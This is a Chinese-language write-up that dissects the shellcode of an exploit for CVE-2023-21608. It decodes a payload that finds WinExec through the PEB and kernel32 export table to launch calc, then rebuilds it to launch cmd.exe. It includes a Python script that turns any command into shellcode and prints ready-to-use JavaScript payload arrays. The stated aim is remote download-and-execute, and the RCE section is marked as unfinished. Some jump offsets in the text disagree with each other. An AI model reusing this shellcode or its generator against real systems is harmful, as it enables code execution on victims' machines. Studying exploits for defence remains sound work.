CVE-2023-21608
Shellcode 分析
目的
为了改造该 exp 为远程命令执行，还需要对 shellcode 进行修改
前置知识
PEB
内容引用自 x32 PEB: 获取 Kernel32 基地址的原理及实现 - 先知社区
TEB（Thread Environment Block，线程环境块）系统在此 TEB 中保存频繁使用的线程相关的数据。位于用户地址空间，在比 PEB 所在地址低的地方。用户模式下，当前线程的 TEB 位于独立的 4KB 段(页)，可通过 CPU 的 FS 寄存器来访问该段，一般存储在[FS:0]
PEB（Process Environment Block，进程环境块）存放进程信息，每个进程都有自己的 PEB 信息。位于用户地址空间。可在 TEB 结构地址偏移 0x30 处获得 PEB 的地址位置。
typedef struct _PEB {
BYTE Reserved1[2];
BYTE BeingDebugged;
BYTE Reserved2[1];
PVOID Reserved3[2];
PPEB_LDR_DATA Ldr;
PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
PVOID Reserved4[3];
PVOID AtlThunkSListPtr;
PVOID Reserved5;
ULONG Reserved6;
PVOID Reserved7;
ULONG Reserved8;
ULONG AtlThunkSListPtr32;
PVOID Reserved9[45];
BYTE Reserved10[96];
PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
BYTE Reserved11[128];
PVOID Reserved12[1];
ULONG SessionId;
} PEB, *PPEB;
具体分析
var shellcode = [
// recovery prefix (store reg context)
// 0x909090CC,
0x89e083e8, 0x18535256, 0x57505590,
// shellcode
835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
469892611, 1018101719, 2425393296,
// recovery suffix
// 0x909090CC,
/*restore regs*/ 0x58585d58, /*restore vtable*/ 0x8b48608b, 0x50648911, /*pop regs*/ 0x5f5e5a5b,
/*restore ebp,esp: 0x89ea83ea, 0x3089d490, */ 0x89ec83ec, 0x30909090, /* esi = fn*/ 0x8b706890,
/*arrbuf restore*/ 0x53bb4000, 0x00208b50, 0x6cc7430c, 0xe8ff0000, 0xc74220e8, 0xff000090,
0x8953108b, 0x50708913, 0x8b507489, 0x530431d2, 0x5b909090, /*jmp esi*/ 0xffe69090
/*jmp defaultVal 0xff606890*/
];
通过验证可以得知该 shellcode 的作用是弹出计算机，但我们的最终目的是为了远程下载并执行文件。
shellcode 部分
835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
469892611, 1018101719, 2425393296
都是 10 进制字符串，尝试简单转 16 进制看看
shellcode = [835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
469892611, 1018101719, 2425393296]
for shell_bytes in shellcode:
print(hex(shell_bytes))
执行结果，所以先转 16 进制没问题
0x31d25268
0x63616c63 # calc 的ascii
0x54595251
0x648b7230
0x8b760c8b
0x760cad8b
0x308b7e18
0x8b5f3c8b
0x5c1f788b
0x741f2001
0xfe8b541f
0x240fb72c
0x174242ad
0x813c0757
0x696e4575
0xf08b741f
0x1c01fe03
0x3caeffd7
0x90909090 # nop
其中最后一行的 0x90909090 特征比较明显，是 x86 汇编中的 nop，主要作用是对齐栈。
第二步，将片段 16 进制代码转汇编
获取 kernel32.dll 基地址
此段 shellcode 主要用于获取 kernel32.dll 的基地址，该部分的理解参考了该文章：x32 PEB: 获取 Kernel32 基地址的原理及实现 - 先知社区。
- 0x31d25268
Array Literal:
{ 0x31, 0xD2, 0x52, 0x68 }
Disassembly:
0: 31 d2 xor edx,edx
2: 52 push edx
3: 68 .byte 0x68
- 0x63616c63
由于第一段多了个 68，所以补在这一段
将 calc 字符串压栈
Array Literal:
{ 0x68, 0x63, 0x61, 0x6C, 0x63 }
Disassembly:
0: 68 63 61 6c 63 push 0x636c6163 # 存字符串
- 0x54595251
Array Literal:
{ 0x54, 0x59, 0x52, 0x51 }
Disassembly:
0: 54 push esp #压入字符串所在地址
1: 59 pop ecx # 将字符串所在地址复制给ecx
2: 52 push edx # 压入edx
3: 51 push ecx #压入ecx
执行到 pop ecx 时的内存情况，ecx 指向 calc 的所在地址

- 0x648b7230
Array Literal:
{ 0x64, 0x8B, 0x72, 0x30 }
Disassembly:
0: 64 8b 72 30 mov esi,DWORD PTR fs:[edx+0x30]
edx 此时为 0 ，获取 fs 段 +0x30 处地址放入 esi，下图为执行后的 ESI 结果 FF4F4000
在 TEB 结构地址偏移 0x30 处获得 PEB 的地址位置

- 0x8b760c8b
Array Literal:
{ 0x8B, 0x76, 0x0C, 0x8B }
Disassembly:
0: 8b 76 0c mov esi,DWORD PTR [esi+0xc]
3: 8b .byte 0x8b
多出的 8b 放入下一层反编译
执行该条命令前 esi 指向 fs+0x30 处，接着再将 esi+0xc 取值到 esi ,从下图可以看到此时 esi 变成了 ntdll 所在地址，
本次操作主要目的为获取指向 PEB->PEB_LDR_DATA 的指针

- 0x760cad8b
Array Literal:
{ 0x8B, 0x76, 0x0C, 0xAD, 0x8B }
Disassembly:
0: 8b 76 0c mov esi,DWORD PTR [esi+0xc]
3: ad lods eax,DWORD PTR ds:[esi]
4: 8b .byte 0x8b
反汇编时要拼接上一轮没有被反编译的 0xb8，看到是再次对 esi+0xc 并取该处的值 得到一个程序内的地址，该地址指向 PEB->PEB_LDR_DATA->InLoadOrderModuleList 的 Flink 字段
图片引用自 https://xz.aliyun.com/t/10478

lodsd 后 指向 Flink 从第 0 个改为指向第 3 个

查看该地址处 0x52326F8 反汇编代码，

- 0x308b7e18
Array Literal:
{ 0x8B, 0x30, 0x8B, 0x7E, 0x18 }
Disassembly:
0: 8b 30 mov esi,DWORD PTR [eax]
2: 8b 7e 18 mov edi,DWORD PTR [esi+0x18]
同上一轮，拼接剩下的 0x8b，并反汇编，在执行该地址前，执行了一次 lodsd

发现 EAX 的值改为了 0x5232618 ，也就是此时取地址内容的真实地址是 0x5232618 而不是 0x20000358

执行后 esi 指向 0x52328d8,此时 ESI 所在结构为 PEB_LDR_DATA->InLoadOrderModuleList[2] ,查看此处反汇编及内存中内容 ，通过先知文章可以知道此时的结构信息，esi 指向 INLoadOrderLinks 的地址，距离我们的 DLLBase 还差 0x18

继续运行

接着下一次执行复制到 edi，地址从当前的 esi+0x18 处获取内容，如下图，地址内容为 77260000 ,该内容为地址，指向 kernel32.dll，也就是获取到了 DLLBASE 地址。后续均称为 kernel_addr。

动态获得函数地址
该部分后续 shellcode 主要用来定位具体的某个函数，通过 kernel_addr + 搜索偏移 得到具体的函数地址。该部分主要参考 wizardforcel.gitbooks.io
- 0x8b5f3c8b
Array Literal:
{ 0x8B, 0x5F, 0x3C, 0x8B }
Disassembly:
0: 8b 5f 3c mov ebx,DWORD PTR [edi+0x3c]
3: 8b .byte 0x8b
此部分主要用于获取 PE 头部偏移，对 ebx 赋值 edi+0x3c，注意此时 edi 指向 kernel32.dll 基地址，也就是获取 kernel_addr+0x3c 处的内容，得到 EBX=0xF8,所以 PE_HEADER_OFFSET = 0xF8。
PE 头部偏移在 kerner32.dll 基址 ＋0x3C 的地方。

- 0x5c1f788b
Array Literal:
{ 0x8B, 0x5C, 0x1F, 0x78, 0x8B }
Disassembly:
0: 8b 5c 1f 78 mov ebx,DWORD PTR [edi+ebx*1+0x78]
4: 8b .byte 0x8b
输出表的位置在 kerner32.dll 基地址 +PE 头部地址 +0x78，所以此处 ebx 的内容是输出表的地址。
输出表结构如下，对于我们的目的是为了找函数，则可以通过匹配函数名字然后确定函数地址。
Typedef struct _IMAGE_EXPORT_DIRECTORY
{
Characteristics; 4
TimeDateStamp 4
MajorVersion 2
MinorVersion 2
Name 4 模块名字
Base 4 基数，加上序数就是函数地址数组的索引值
NumberOfFunctions 4
NumberOfNames 4
AddressOfFunctions 4 指向函数地址数组
AddressOfNames 4 函数名字的指针地址
AddressOfNameOrdinal 4 指向输出序列号数组
}
在(kernel32 基址 +export+0x1c +offset)处获取 AddressOfFunctions、AddressOfNames、AddressOfNameOrdinalse。
(kernel32 基址 +export+0x1C) AddressOfFunctions
(kernel32 基址 +export+0x20) AddressOfNames
(kernel32 基址 +export+0x24) AddressOfNameOrdinal

- 0x741f2001
Array Literal:
{ 0x8B, 0x74, 0x1F, 0x20, 0x01 }
Disassembly:
0: 8b 74 1f 20 mov esi,DWORD PTR [edi+ebx*1+0x20]
4: 01 .byte 0x1
esi 指向 AddressOfNames ，主要存储函数名称指针地址偏移

- 0xfe8b541f
两次汇编 第一次补齐上轮 +1 字节
Array Literal:
{ 0x01, 0xFE }
Disassembly:
0: 01 fe add esi,edi
计算出 函数名地址，edi 为 kernel32 基地址 + 刚刚获取的 AddressOfName 的偏移地址 = AddressOfName 所在地址

第二次 补齐下轮 1 字节
Array Literal:
{ 0x8B, 0x54, 0x1F, 0x24 }
Disassembly:
0: 8b 54 1f 24 mov edx,DWORD PTR [edi+ebx*1+0x24]
EDX 内容存储了(kernel32 基址 +export+0x24) AddressOfNameOrdinal 结构的偏移地址，该结构用于存放函数的序号，构成一个函数序号数组

- 循环部分统一反汇编
这里要注意 jne 跳转到 0 地址 这个是相对地址，当在内存中时，指向 movzx ebp,WORD PTR [edi+edx*1] 指令所在地址
0: 0f b7 2c 17 movzx ebp,WORD PTR [edi+edx*1]
4: 42 inc edx
5: 42 inc edx
6: ad lods eax,DWORD PTR ds:[esi]
7: 81 3c 07 57 69 6e 45 cmp DWORD PTR [edi+eax*1],0x456e6957
e: 75 f0 jne 0x0
ebp = edi+edx = kernel32 基地址 +AddressOfNameOrdinal 地址偏移 = AddressOfNameOrdinal 结构真实地址

更新 edx，注意此时 edx 存的 AddressOfNameOrdinal 数组[0]位置的偏移地址，inc edx 后会将数组移动到下一位
将 edx 指向 AddressOfNameOrdinal 数组[1] 位置的偏移地址。

LODSD 指令从 ESI 指向的内存地址加载一个字到 EAX，得到一个新的 EAX 偏移
此时 ESI 存储为(kernel32 基址 +export+0x20) AddressOfNames 数组[0]指针的真实地址，所以通过 lodsd 指令可以获取 AddressOfNames 数组[0]处内容并放在 EAX，此时 EAX 为 函数名称数组[0]-> 函数名称偏移地址

通过计算 edi +eax = kernel32 基地址 + 函数名称偏移地址 = 真实函数名称地址，取该地址内容 也就是函数名称 与 WinE 比较，如果不相等则进行循环重新得到一个新的 ebp（AddressOfNameOrdinal[1] 对应序号的真实地址），接着再次将 edx+2 后得到 AddressOfNames[1] 的函数名称地址的指针地址偏移，最后再次计算函数名称地址的真实地址，再次与 WinE 比较 循环。




最终找到 WinExec 时结束循环，此时 EAX 偏移地址为 WinExec 函数名称的地址偏移，EBP 为该函数的序号地址。

- 最终段 反汇编
Array Literal:
{ 0x8B, 0x74, 0x1F, 0x1C, 0x01, 0xFE, 0x03, 0x3C, 0xAE, 0xFF, 0xD7 }
Disassembly:
0: 8b 74 1f 1c mov esi,DWORD PTR [edi+ebx*1+0x1c]
4: 01 fe add esi,edi
6: 03 3c ae add edi,DWORD PTR [esi+ebp*4]
9: ff d7 call edi
ESI = (kernel32 基址 +export 真实地址 +0x1C) AddressOfFunctions [0]的偏移地址
Add esi,edi 计算出 AddressOfFunctions [0]的真实地址

此时 EBP 为 WinExec 函数的 序号地址，ESI 为 AddressOfFunctions 偏移地址
esi+ebp*4 得到 WinExec 函数的偏移地址
add edi,DWORD PTR [esi+ebp*4] 相加得到 WinExec 函数的真实地址

在执行这段 shellcode 的同时没有再对栈空间做任何操作，栈空间包含两个参数，参数 1.calc 所在地址 2.0
最终 call edi 触发 kernel32.WinExec("calc”，0)

通过查询可知，WinExec 刚好有两个参数，参数一：命令 ，参数二：内容显示
UINT WinExec(
[in] LPCSTR lpCmdLine,
[in] UINT uCmdShow
);
经过上述验证，可以清晰的明白 shellcode 结构以及作用
- 保存栈帧
- 将命令字符串压栈
- 通过出栈压栈操作将字符串地址放入栈顶，同时压栈前压入参数二：0
- 获取 kernel32.dll 基地址
- 循环偏移，获取 WinExec 函数地址
- 调用 kernel32.WinExec("calc”，0)
构造 exp
由于上方分析都是分段进行，不方便接下来的修改 shellcode 操作，还需要简单处理一下得到完整的 shellcode
shellcode = [835867240, 1667329123, 1415139921, 1686860336, 2339769483, 1980542347, 814448152, 2338274443,
1545566347, 1948196865, 4270543903, 605009708, 390218413, 2168194903, 1768834421, 4035671071,
469892611, 1018101719, 2425393296]
bytes = "0x"
for shell_bytes in shellcode:
cur_bytes= hex(shell_bytes)[2:]
bytes+=cur_bytes
print(bytes)
得到 real shellcode
0x31d2526863616c6354595251648b72308b760c8b760cad8b308b7e188b5f3c8b5c1f788b741f2001fe8b541f240fb72c174242ad813c0757696e4575f08b741f1c01fe033caeffd790909090
反编译完整内容
Array Literal:
{ 0x31, 0xD2, 0x52, 0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x52, 0x51, 0x64, 0x8B, 0x72, 0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x0C, 0xAD, 0x8B, 0x30, 0x8B, 0x7E, 0x18, 0x8B, 0x5F, 0x3C, 0x8B, 0x5C, 0x1F, 0x78, 0x8B, 0x74, 0x1F, 0x20, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x42, 0x42, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xF0, 0x8B, 0x74, 0x1F, 0x1C, 0x01, 0xFE, 0x03, 0x3C, 0xAE, 0xFF, 0xD7, 0x90, 0x90, 0x90, 0x90 }
Disassembly:
0: 31 d2 xor edx,edx
2: 52 push edx
3: 68 63 61 6c 63 push 0x636c6163
8: 54 push esp #获取存储calc的地址esp压栈
9: 59 pop ecx# 存储calc的地址存入ecx
a: 52 push edx
b: 51 push ecx
c: 64 8b 72 30 mov esi,DWORD PTR fs:[edx+0x30]
10: 8b 76 0c mov esi,DWORD PTR [esi+0xc]
13: 8b 76 0c mov esi,DWORD PTR [esi+0xc]
16: ad lods eax,DWORD PTR ds:[esi]
17: 8b 30 mov esi,DWORD PTR [eax]
19: 8b 7e 18 mov edi,DWORD PTR [esi+0x18]
1c: 8b 5f 3c mov ebx,DWORD PTR [edi+0x3c]
1f: 8b 5c 1f 78 mov ebx,DWORD PTR [edi+ebx*1+0x78]
23: 8b 74 1f 20 mov esi,DWORD PTR [edi+ebx*1+0x20]
27: 01 fe add esi,edi
29: 8b 54 1f 24 mov edx,DWORD PTR [edi+ebx*1+0x24]
2d: 0f b7 2c 17 movzx ebp,WORD PTR [edi+edx*1]
31: 42 inc edx
32: 42 inc edx
33: ad lods eax,DWORD PTR ds:[esi]
34: 81 3c 07 57 69 6e 45 cmp DWORD PTR [edi+eax*1],0x456e6957 #WinE
3b: 75 f0 jne 0x2d
3d: 8b 74 1f 1c mov esi,DWORD PTR [edi+ebx*1+0x1c]
41: 01 fe add esi,edi
43: 03 3c ae add edi,DWORD PTR [esi+ebp*4]
46: ff d7 call edi
48: 90 nop
49: 90 nop
4a: 90 nop
4b: 90 nop
测试改动 shellcode
通过上述分析可以清晰的看到 shellcode 除了命令字符串部分需要改动，其他部分均不需要改动。
替换 calc 为 cmd.exe
push 0x657865
push 0x2e646d63
汇编代码
0x0: xor edx, edx
0x2: push edx
0x3: push 0x657865
0x8: push 0x2e646d63
0xd: push esp
0xe: pop ecx
0xf: push edx
0x10: push ecx
0x11: mov esi, dword ptr fs:[edx + 0x30]
0x15: mov esi, dword ptr [esi + 0xc]
0x18: mov esi, dword ptr [esi + 0xc]
0x1b: lodsd eax, dword ptr [esi]
0x1c: mov esi, dword ptr [eax]
0x1e: mov edi, dword ptr [esi + 0x18]
0x21: mov ebx, dword ptr [edi + 0x3c]
0x24: mov ebx, dword ptr [edi + ebx + 0x78]
0x28: mov esi, dword ptr [edi + ebx + 0x20]
0x2c: add esi, edi
0x2e: mov edx, dword ptr [edi + ebx + 0x24]
0x32: movzx ebp, word ptr [edi + edx]
0x36: inc edx
0x37: inc edx
0x38: lodsd eax, dword ptr [esi]
0x39: cmp dword ptr [edi + eax], 0x456e6957
0x40: jne 0x2d
0x42: mov esi, dword ptr [edi + ebx + 0x1c]
0x46: add esi, edi
0x48: add edi, dword ptr [esi + ebp*4]
0x4b: call edi
0x4d: nop
0x4e: nop
0x4f: nop
0x50: nop
发现 jne 0x2d 的偏移变了，所以还需要改动一下 将 0x2d 改为 0x32 即可
0x0: xor edx, edx
0x2: push edx
0x3: push 0x657865
0x8: push 0x2e646d63
0xd: push esp
0xe: pop ecx
0xf: push edx
0x10: push ecx
0x11: mov esi, dword ptr fs:[edx + 0x30]
0x15: mov esi, dword ptr [esi + 0xc]
0x18: mov esi, dword ptr [esi + 0xc]
0x1b: lodsd eax, dword ptr [esi]
0x1c: mov esi, dword ptr [eax]
0x1e: mov edi, dword ptr [esi + 0x18]
0x21: mov ebx, dword ptr [edi + 0x3c]
0x24: mov ebx, dword ptr [edi + ebx + 0x78]
0x28: mov esi, dword ptr [edi + ebx + 0x20]
0x2c: add esi, edi
0x2e: mov edx, dword ptr [edi + ebx + 0x24]
0x32: movzx ebp, word ptr [edi + edx]
0x36: inc edx
0x37: inc edx
0x38: lodsd eax, dword ptr [esi]
0x39: cmp dword ptr [edi + eax], 0x456e6957
0x40: jne 0x33
0x42: mov esi, dword ptr [edi + ebx + 0x1c]
0x46: add esi, edi
0x48: add edi, dword ptr [esi + ebp*4]
0x4b: call edi
0x4d: nop
0x4e: nop
0x4f: nop
0x50: nop
shellcode 构造脚本
这里给出一个帮助构造 shellcode 的脚本
def cut(obj, sec):
return [obj[i:i + sec] for i in range(0, len(obj), sec)]
def shellcode2stack(string):
hex_shell = ""
for byte in string:
a = hex(ord(byte))[2:]
hex_shell += a
hex_list = cut(hex_shell, 8)
hex_list.reverse()
stack = []
for hex_byte in hex_list:
byte_list = cut(hex_byte, 2)
byte_list.reverse()
stack_byte = ''.join(byte_list)
stack.append("push 0x{}".format(stack_byte))
return stack
if __name__ == '__main__':
shell = "1.exe"
# shell = "cmd.exe"
stack_list = shellcode2stack(shell)
print("push times: {}".format(len(stack_list)))
print("need pop times: {}".format(len(stack_list) - 1))
print("jne offset: {}".format(hex(0x2d + (len(stack_list) - 1) * 5)))
print()
for stack in stack_list:
print(stack)
print()
print("your shellcode")
print()
print("add esp, {}".format(hex((len(stack_list) - 1) * 4)))
字节码：
31D252686578650068636D642E54595251648B72308B760C8B760CAD8B308B7E188B5F3C8B5C1F788B741F2001FE8B541F240FB72C174242AD813C0757696E4575F08B741F1C01FE033CAEFFD790909090
接着按照 8 比特一组进行切割，生成 js shellcode

发现生成的 list 中多了 1 比特位，所以 sellcode 中还需要删除一个 0x90 的 nop 指令，生成测试 payload
def cut(obj, sec):
return [int(obj[i:i+sec],16) for i in range(0,len(obj),sec)]
bytes = "31D252686578650068636D642E54595251648B72308B760C8B760CAD8B308B7E188B5F3C8B5C1F788B741F2001FE8B541F240FB72C174242AD813C0757696E4575F08B741F1C01FE033CAEFFD7589090"
bytes_list =cut(bytes,8)
print(bytes_list)
835867240, 1702388992, 1751346532, 777279826, 1365543794, 814446092, 2339769517, 2335214462, 411787068, 2338070392, 2339643168, 33459028, 522457015, 739721794, 2910927879, 1466527301, 1978698612, 521929214, 54308607, 3616575632
尝试执行

执行失败。。。 原因也很明显 在执行完命令后需要恢复堆栈，可以看到 原始处理方法是 pop eax 两次，用来清理曾经的参数 1 和参数 2，但是现在由于我们多压栈了一次，导致这里寄存器值的错位，进而导致程序崩溃。解决方法：在添加一个 pop eax 的 shellcode 用于恢复到默认 shellcode 布局。

尝试新 shellcode
0x0: xor edx, edx
0x2: push edx
0x3: push 0x657865
0x8: push 0x2e646d63
0xd: push esp
0xe: pop ecx
0xf: push edx
0x10: push ecx
0x11: mov esi, dword ptr fs:[edx + 0x30]
0x15: mov esi, dword ptr [esi + 0xc]
0x18: mov esi, dword ptr [esi + 0xc]
0x1b: lodsd eax, dword ptr [esi]
0x1c: mov esi, dword ptr [eax]
0x1e: mov edi, dword ptr [esi + 0x18]
0x21: mov ebx, dword ptr [edi + 0x3c]
0x24: mov ebx, dword ptr [edi + ebx + 0x78]
0x28: mov esi, dword ptr [edi + ebx + 0x20]
0x2c: add esi, edi
0x2e: mov edx, dword ptr [edi + ebx + 0x24]
0x32: movzx ebp, word ptr [edi + edx]
0x36: inc edx
0x37: inc edx
0x38: lodsd eax, dword ptr [esi]
0x39: cmp dword ptr [edi + eax], 0x456e6957
0x40: jne 0x32
0x42: mov esi, dword ptr [edi + ebx + 0x1c]
0x46: add esi, edi
0x48: add edi, dword ptr [esi + ebp*4]
0x4b: call edi
0x4d: pop eax
0x4e: nop
0x4f: nop
对应 hex
31D252686578650068636D642E54595251648B72308B760C8B760CAD8B308B7E188B5F3C8B5C1F788B741F2001FE8B541F240FB72C174242AD813C0757696E4575F08B741F1C01FE033CAEFFD7589090
对应 js shellcode
835867240, 1702388992, 1751346532, 777279826, 1365543794, 814446092, 2339769517, 2335214462, 411787068, 2338070392, 2339643168, 33459028, 522457015, 739721794, 2910927879, 1466527301, 1978698612, 521929214, 54308607, 3612905616
再次尝试

构造 RCE shellcode
后续添加
遇到问题
- 调试时如何准确断在 shellcode 内存地址处？
可以在程序加载运行后，单步走几步，此时跳转到 shellcode 内存处，并下硬件断点，检测执行操作 - 如果自由转换 asm 到 shellcode，以及 shellcode 到 asm
在线方式 https://disasm.pro/
离线方式 pwntools - 调试时突然遇见 exec_denied
待解决。。。